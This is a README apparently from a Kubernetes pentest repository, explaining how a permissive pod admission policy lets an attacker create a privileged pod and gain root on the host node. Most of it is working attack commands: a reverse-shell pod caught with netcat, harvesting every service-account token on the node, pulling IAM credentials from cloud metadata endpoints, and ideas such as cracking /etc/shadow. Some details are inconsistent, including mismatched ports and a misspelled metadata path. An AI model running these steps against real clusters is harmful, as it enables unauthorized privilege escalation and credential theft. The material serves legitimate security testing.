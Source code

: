 # You can create a pod with all the things
If there are no pod admission controllers applied,or a really lax policy, you can create a pod that has complete access to the host node. You essentially have a root shell on the host, which provides a path to cluster-admin. 


## Pod you can exec into
[pod-everything-allowed.yaml](pod-everything-allowed.yaml)

### Create a pod
```bash
# Option 1: Create pod from local yaml 
kubectl apply -f pod-everything-allowed.yaml 
# Option 2: Create pod from github hosted yaml
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/everything-allowed/pod-everything-allowed.yaml 
```
### Exec into pod 
```bash
kubectl exec -it pod-everything-allowed -- chroot /host
```

## Reverse shell pod
[pod-everything-allowed-revshell.yaml](pod-everything-allowed-revshell.yaml)

### Set up listener
```bash
nc -nvlp 3111
```

### Create a pod
```bash
# Option 1: Create pod from local yaml without modifying it by using env variables and envsubst
HOST="10.0.0.1" PORT="3116" envsubst < ./yaml/priv-and-hostpid/pod-priv-and-hostpid-revshell.yaml | kubectl apply -f -
```

### Catch the shell and chroot to /host 
```bash
~ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
~ chroot /host
```

### Post exploitation

You now have root access to the node. Here are some next steps: 

#### Look for kubeconfig's in the host filesystem 
If you are lucky, you will find a cluster-admin config with full access to everything (not so lucky here on this GKE node)

```bash
find / -name kubeconfig
/var/lib/docker/overlay2/e13d54160a660c0486276f54449e9d9d364aaa4c985a3b71010d8bc31e520838/merged/var/lib/kube-proxy/kubeconfig
/var/lib/docker/overlay2/e13d54160a660c0486276f54449e9d9d364aaa4c985a3b71010d8bc31e520838/diff/var/lib/kube-proxy/kubeconfig
/var/lib/node-problem-detector/kubeconfig
/var/lib/kubelet/kubeconfig
/var/lib/kube-proxy/kubeconfig
/home/kubernetes/containerized_mounter/rootfs/var/lib/kubelet/kubeconfig
/mnt/stateful_partition/var/lib/docker/overlay2/e13d54160a660c0486276f54449e9d9d364aaa4c985a3b71010d8bc31e520838/diff/var/lib/kube-proxy/kubeconfig
/mnt/stateful_partition/var/lib/node-problem-detector/kubeconfig
/mnt/stateful_partition/var/lib/kubelet/kubeconfig
/mnt/stateful_partition/var/lib/kube-proxy/kubeconfig
```

#### Grab all tokens from all pods on the system
Use something like access-matrix to see if any of them give you more permission than you currently have. Look for tokens that have permissions to get secrets in kube-system

```bash
# This lists the location of every service account used by every pod on the node you are on, and tells you the namespace. 
tokens=`find /var/lib/kubelet/pods/ -name token -type l`; for token in $tokens; do parent_dir="$(dirname "$token")"; namespace=`cat $parent_dir/namespace`; echo $namespace "|" $token ; done | sort

default | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-t25ss/token
default | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-t25ss/token
development | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-qqgjc/token
development | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-qqgjc/token
kube-system | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/kube-proxy-token-x6j9x/token
kube-system | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/calico-node-token-d426t/token


# For each interesting token, copy token value to somewhere you have kubectl set and see what permissions it has assigned to it
DTOKEN=`cat /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-qqgjc/token`
kubectl auth can-i --list --token=$DTOKEN -n development # Shows namespace specific permissions
kubectl auth can-i --list --token=$DTOKEN #Shows cluster wide permissions

# Does the token allow you to view secrets in that namespace? How about other namespaces?
# Does it allow you to create clusterrolebindings? Can you bind your user to cluster-admin?
```

If cloud hosted, look at the metadata service and checkout user-data, and the IAM permissions. If an IAM role has been assigned to the node, use that to see wht access you hav in the cloud environment. 

```bash
curl http://169.254.169.254/latest/user-data 
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
curl -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/insce-accounts/default/token
```

Some other ideas:
* Add your public key to node and ssh to it
* Crack passwords in /etc/shadow, see if you can use them to access other nodes
* Look at the volumes that each of the pods have mounted. You might find some pretty sensitive stuff in there. 

## Demonstrate Impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the pentration test. 

   
## Reference(s)/Acknowledgements: 
* https://raesene.github.io/blog/2019/04/01/The-most-pointless-kubernetes-command-ever/
  
